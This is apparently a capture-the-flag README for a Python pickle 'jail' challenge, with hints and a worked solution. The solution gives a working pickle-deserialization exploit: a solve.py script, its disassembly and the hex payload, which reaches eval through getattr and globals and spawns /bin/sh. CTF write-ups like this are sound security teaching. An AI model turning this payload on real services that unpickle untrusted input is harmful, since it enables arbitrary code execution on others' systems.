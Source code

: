 # jail 4

## restrictions

larger blocklist for the `find_class` function

additionally, all find_class only finds functions/classes from builtins

## hints

<details>
    <summary>Hint 1</summary>

Perhaps `getattr`?

</details>

<details>
    <summary>Hint 2</summary>

I wonder what would happen if you did `getattr(builtins, "eval")`... if only there were a way to get access to the builtins module object

</details>

<details>
    <summary>Hint 3</summary>

`globals()` is pretty useful

</details>

<details>
    <summary>Solution</summary>

tl;dr - `getattr(getattr(globals(), 'get')('__builtins__'), 'eval')('__import__("os").system("/bin/sh")')`

Access to `getattr` is readily available, so we can get the "get" attribute of the return value of `globals`, because `globals` returns a dictionary, and then get the eval from builtins.

It may be possible to remove the `'get'` and replace it with `'__builtins__'` and then not call the `'get'` function but I have not tested it.

solve.py
```python
from pickle import *
from pickletools import dis

p = b""

p += PROTO
p += b'\x05'

p += GLOBAL
p += b'builtins\n'
p += b'getattr\n'
p += MEMOIZE  # memo[0] = getattr function

p += GLOBAL
p += b'builtins\n'
p += b'globals\n'
p += EMPTY_TUPLE
p += REDUCE
p += STRING
p += b'"get"\n'

p += TUPLE2

p += REDUCE

p += STRING
p += b'"__builtins__"\n'
p += TUPLE1

p += REDUCE
p += MEMOIZE  # memo[1] = builtins module
p += POP

p += GET
p += b'0\n'

p += GET
p += b'1\n'
p += STRING
p += b'"eval"\n'
p += TUPLE2
p += REDUCE

p += STRING
p += b'"__import__(\'os\').system(\'/bin/sh\')"\n'
p += TUPLE1
p += REDUCE

p += STOP

dis(p)
print("="*50)
print(p.hex())
```

output
```
    0: \x80 PROTO      5
    2: c    GLOBAL     'builtins getattr'
   20: \x94 MEMOIZE    (as 0)
   21: c    GLOBAL     'builtins globals'
   39: )    EMPTY_TUPLE
   40: R    REDUCE
   41: S    STRING     'get'
   48: \x86 TUPLE2
   49: R    REDUCE
   50: S    STRING     '__builtins__'
   66: \x85 TUPLE1
   67: R    REDUCE
   68: \x94 MEMOIZE    (as 1)
   69: 0    POP
   70: g    GET        0
   73: g    GET        1
   76: S    STRING     'eval'
   84: \x86 TUPLE2
   85: R    REDUCE
   86: S    STRING     "__import__('os').system('/bin/sh')"
  124: \x85 TUPLE1
  125: R    REDUCE
  126: .    STOP
highest protocol among opcodes = 4
==================================================
8005636275696c74696e730a676574617474720a94636275696c74696e730a676c6f62616c730a29525322676574220a865253225f5f6275696c74696e735f5f220a8552943067300a67310a53226576616c220a865253225f5f696d706f72745f5f28276f7327292e73797374656d28272f62696e2f73682729220a85522e
```

</details>
